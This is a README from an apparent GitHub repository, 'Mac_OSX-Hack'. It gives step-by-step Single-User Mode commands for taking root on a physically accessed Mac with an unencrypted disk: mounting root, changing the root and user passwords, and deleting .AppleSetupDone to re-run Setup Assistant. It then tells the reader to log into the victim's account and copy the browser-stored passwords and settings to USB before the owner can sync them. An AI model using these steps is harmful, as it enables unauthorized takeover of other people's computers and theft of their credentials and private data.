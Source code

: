 # Mac_OSX-Hack

This repo wont contain any scripts or previews, It will just be a simple guide for how you will be able to take over root access of any Apple Device running MacOSX no matter wich version of OSX. (iMac, Macbook devices etc)

I have created this repository as an reminder for myself. With below commands you will gain 100% full control of all users data and take over root access of any OSX device aslong root partition has not been encrypted.

# HOWTO 

Boot your osx device to Single-User Mode by pressing:

    MacOSX Keyboard:  Command (⌘)—S:
    Windows Keyboard: Windows Button + S
    
### When system have booted, mount root:

    /sbin/mount -wu /
  
### Take over root account by changing root password followed by remove the hidden .AppleSetupDone file from /var/db path:

    passwd 
     Enter Password:
     Re-Type Password: 
     Successfully changed root password.
    rm /var/db/.AppleSetupDone
    reboot

When you first start using a brand-new Mac or performed a clean install of OS X, you are presented with Setup Assistant, allowing you to create the first user account and specify some initial information, such as keyboard layout 
and locale. Under certain circumstances, it can be advantageous to re-run the Setup Assistant for take over root account ;) Using some command-line trickery, we can do just this without having to erase and reinstall OS X.

### What Setup Assistant Does
Setup Assistant is designed to run on the first boot of a fresh install of OS X, which is why you'll only see it when booting up a a brand-new Mac or one that has been erased and had OS X reinstalled.

### Change current users password:
     passwd 'username'

After password has been updated you will be able to login as the user from login screen and have full access to the users data, pictures, documents, music etc etc..

If you're smart, asap you have logged in on the user(s) account open all web browsers that is installed and head over to settings and grab all passwords that hopefully is stored (if there is any) and save them in plain-text before 
the owner MIGHT sync the settings and all passwords will be gone. Also before you will run the reboot command from single user mode backup ALL web browser settings to an usb or something in case the owner 
already has synced the data. Usually all such settings is stored in ~/.config/google-chrome and ~/.mozilla etc etc.. 

#### REQUIREMENTS

A macosx device

#### CONTACT 

If you have problems, questions, ideas or suggestions please contact
us by posting to wuseman@nr1.nu (NEW MAIL)

#### WEB SITE

Visit our homepage for the latest info and updated tools

https://github.com/wuseman

#### END!

